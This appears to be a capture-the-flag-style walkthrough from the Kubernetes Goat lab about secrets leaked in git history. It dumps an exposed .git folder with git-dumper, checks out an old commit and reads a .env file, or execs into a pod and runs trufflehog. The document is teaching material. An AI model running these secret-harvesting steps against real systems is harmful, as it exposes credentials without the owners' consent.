 # Sensitive keys in code bases

## Scenario Information

Developers tend to commit sensitive information to version control systems. As we are moving towards CI/CD and GitOps systems, we tend to forgot identifying sensitive information in code and commits. Let's see if we can find something cool here!

* To get started with the scenario, navigate to [http://127.0.0.1:1230](http://127.0.0.1:1230)

![Scenario 1 Entry](images/sc-1-1.png)

## Scenario Solution

### Method 1

After reading the scenario description and application information. We have performed some discovery and analysis, then identified that it has `.git` folder exposed with in the application.

![Scenario 1 Git folder found](images/sc-1-2.png)

* Clone the git repository locally by running the following command. Ensure you have setup [git-dumper](https://github.com/arthaud/git-dumper) locally before running the below command

```bash
python3 git-dumper.py http://localhost:1230/.git k8s-goat-git
```

![Scenario 1 git-dumper clone locally](images/sc-1-3.png)

* Now check the git log information

```bash
cd k8s-goat-git
git log
```

![Scenario 1 Git log history](images/sc-1-4.png)

* Checkout to old commit to specific version

```bash
git checkout 128029d89797957957b2a7198d8d159b239b34eb
ls -la
cat .env
```

![Scenario 1 Gain access to flag](images/sc-1-5.png)

### Method 2

Sometimes, we ideally have access to the pods or containers access and we can also perform analysis from with in the container as well.

```bash
export POD_NAME=$(kubectl get pods --namespace default -l "app=build-code" -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $POD_NAME -- sh
```

![Scenario 1 access to pod](images/sc-1_1.png)

* Then we can perform analysis on `.git` folder by running utilities like trufflehog

```bash
trufflehog .
```

![Scenario 1 trufflehog discovery](image/../images/sc-1_2.png)

## Miscellaneous

TBD
